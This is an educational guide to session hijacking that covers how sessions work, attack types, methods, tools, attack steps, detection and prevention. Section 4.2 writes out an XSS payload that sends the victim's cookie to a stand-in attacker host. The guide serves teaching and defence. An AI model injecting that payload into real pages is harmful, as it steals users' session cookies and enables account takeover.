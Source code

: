 Session Hijacking – Complete Guide

1. What is Session Hijacking?

       Session hijacking is a cyberattack where an attacker takes over an active communication session between two systems—typically a user and a web application—by stealing or predicting the session ID.
       Once successful, the attacker can impersonate the legitimate user and perform actions as them without needing to log in.

2. How Sessions Work

       1) Session: A temporary interaction between a client and a server after authentication.
       2) Session ID: A unique token (usually stored in cookies, URL parameters, or HTTP headers) used to track the user’s session.
       3) Session Management: The process of creating, maintaining, and terminating sessions securely.

When a user logs in:

       1) They provide valid credentials.
       2) The server creates a session ID.
       3) The session ID is sent to the client.
       4) The client sends the ID with every request.
       5) If the session ID is stolen, the attacker bypasses authentication.

3. Types of Session Hijacking

       A. Active Session Hijacking --- The attacker actively takes over a session while it’s still in progress.
          a) Example: Using a man-in-the-middle (MITM) attack to inject commands.
       B. Passive Session Hijacking --- The attacker silently monitors and captures traffic to extract the session ID.
          a) Example: Packet sniffing on unencrypted Wi-Fi.

4. Methods of Session Hijacking

       4.1. Session Sniffing
            a) Capturing unencrypted network packets to extract session IDs.
            b) Tools: Wireshark, tcpdump, Ettercap.

       4.2. Cross-Site Scripting (XSS)
            a) Injecting malicious JavaScript to steal cookies containing session IDs.
            b) Example: <script>document.location='http://attacker.com?cookie='+document.cookie</script>

       4.3. Man-in-the-Middle (MITM)
            a) Intercepting communication between client and server.
            b) Tools: Bettercap, Cain & Abel, MITMf.

       4.4. Session Fixation
            a) Attacker sets the victim’s session ID before login, then reuses it after authentication.

       4.5. Predictable Session IDs
            a) If a web application generates weak or guessable session IDs, the attacker can guess them.

       4.6. Malware / Keyloggers
            a) Stealing session tokens from browser storage or memory.

       4.7. Sidejacking
            a) Hijacking HTTP sessions over unsecured Wi-Fi using packet sniffers.
            b) Example: Firesheep browser extension.

5. Steps of a Session Hijacking Attack

       1) Preparation – Set up sniffing or interception tools.
       2) Session ID Capture – Extract the session token from cookies, headers, or URLs.
       3) Session Injection – Use the stolen session ID to craft requests.
       4) Privilege Escalation – Attempt actions as the victim (view data, perform transactions).
       5) Maintaining Access – Possibly create a backdoor or persist with stolen cookies.

6. Tools for Session Hijacking

       1) Wireshark – Packet analysis
       2) Ettercap – MITM attacks
       3) Bettercap – Advanced MITM
       4) Burp Suite – Intercept and manipulate HTTP traffic
       5) Cain & Abel – Sniffing and session token grabbing
       6) Firesheep – Sidejacking (HTTP session hijacking)

7. Detection of Session Hijacking

       1) Abnormal IP Changes: Session suddenly accessed from different locations.
       2) Multiple Devices: Same session used from two devices at once.
       3) High Volume Requests: Automated actions in a short time frame.
       4) IDS/IPS Alerts: Detection of suspicious packet patterns.

8. Prevention & Countermeasures

       8.1. For Web Developers
            a) Use HTTPS for all sessions.
            b) Implement Secure, HttpOnly, and SameSite cookie flags.
            c) Regenerate session IDs after login.
            d) Use unpredictable and cryptographically secure session IDs.
            e) Implement session timeout & inactivity logout.
            f) Detect anomalies in session behavior.

       8.2. For Network Administrators
            a) Use VPNs for internal access.
            b) Enforce TLS/SSL encryption.
            c) Deploy Intrusion Detection/Prevention Systems.
            d) Segment networks to limit sniffing.

       8.3. For End Users
            a) Avoid public Wi-Fi for sensitive logins.
            b) Use VPNs when possible.
            c) Log out from accounts after use.
            d) Disable browser features that store passwords and cookies insecurely.


